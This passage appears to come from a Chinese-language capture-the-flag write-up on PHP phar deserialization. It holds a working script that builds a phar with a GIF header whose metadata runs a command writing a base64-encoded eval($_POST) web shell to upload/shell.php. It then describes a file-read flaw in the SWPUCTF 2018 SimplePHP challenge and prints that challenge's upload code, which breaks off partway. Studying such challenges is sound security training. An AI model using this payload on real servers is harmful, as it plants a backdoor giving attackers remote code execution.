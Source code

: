经典反序列化题目，但是没有`unserialize()`函数。上传`phar`文件，使用`unlink`函数触发`phar://`协议。

```php
<?php
class Flag
{
    public $cmd = "echo PD9waHAgZXZhbCgkX1BPU1RbYV0pOz8+|base64 -d > upload/shell.php";
}

@unlink("test.phar"); // 删除已有文件
$phar = new Phar("test.phar"); //文件名，后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); //设置stub
$object = new Flag();
$phar->setMetadata($object); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```

#### [SWPUCTF 2018]SimplePHP

题目存在任意文件读取漏洞，获取题目源代码。

- `file.php?file=function.php`

```php
<?php
//show_source(__FILE__); 
include "base.php";
header("Content-type: text/html;charset=utf-8");
error_reporting(0);
function upload_file_do()
{
    global $_FILES;
    $filename = md5($_FILES["file"]["name"] . $_SERVER["REMOTE_ADDR"]) . ".jpg";
    //mkdir("upload",0777); 
    if (file_exists("upload/" . $filename)) {
        unlink($filename);
    }
    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
    echo '<script type="text/javascript">alert("上传成功!");</script>';
}
function upload_file()
{
    global $_FILES;
    if (upload_file_check()) {
        upload_file_do();
    }
}
function upload_file_check()
{
    global $_FILES;
    $allowed_types = array("gif", "jpeg", "jpg", "png");
    $temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (empty($extension)) {
        //echo "<h4>请选择上传的文件:" . "<h4/>"; 
    } else {
        if (in_array($extension, $allowed_types)) {
            return true;
        } else {
            echo '<script type="text/javascript">alert("Invalid file!");</script>';
            return false;
        }
```